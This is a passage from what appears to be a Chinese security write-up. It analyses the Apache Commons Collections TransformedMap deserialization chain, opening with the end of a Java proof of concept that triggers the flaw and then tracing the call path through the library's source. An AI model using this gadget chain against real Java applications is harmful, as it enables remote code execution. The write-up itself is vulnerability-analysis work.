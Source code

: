 ```java
        //将transformers数组存入ChaniedTransformer这个继承类
        Transformer transformerChain = new ChainedTransformer(transformers);

        //创建Map并绑定transformerChina
        HashMap<Object, Object> innerMap = new HashMap();
        innerMap.put("value", "hack");
        //给予map数据转化链
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);  
        Map.Entry onlyElement = (Map.Entry) outerMap.entrySet().iterator().next();
		//触发漏洞
        onlyElement.setValue("foobar");
    }
}
```

#### PoC调用分析

先debug看看调用链，整个过程从`onlyElement.setValue("foobar")`​开始，每段代码只取相关的片段。

源码的注释需要下载[CommonsCollections源码](https://archive.apache.org/dist/commons/collections/)查看，debug时是没有的。

##### AbstractInputCheckedMapDecorator

```java
// org. apache. commons. collections. map. AbstractInputCheckedMapDecorator
 	protected abstract Object checkSetValue(Object var1);//3
    /**
     * Implementation of a map entry that checks additions via setValue.
     */
    static class MapEntry extends AbstractMapEntryDecorator {
        private final AbstractInputCheckedMapDecorator parent;

		/** The parent map */
        protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
            super(entry);
            this.parent = parent;
        }

        public Object setValue(Object value) {//1
            value = this.parent.checkSetValue(value);//2
            return this.entry.setValue(value);
        }
    }
```

如代码注释里的顺序所示，程序先到AbstractInputCheckedMapDecorator的子类MapEntry，在2处调用3处的checkSetValue，但是这里的checkSetValue是抽象函数，程序运行时会根据实例调用对应的实现。

checkSetValue对应的实现有两个如下：

​![image](https://raw.githubusercontent.com/lantern-lab/lantern-lab.github.io/master/nullimage-20240908144737-6lcujed.png)​

根据PoC的代码，这里会执行TransformMap里定义的checkSetValue。
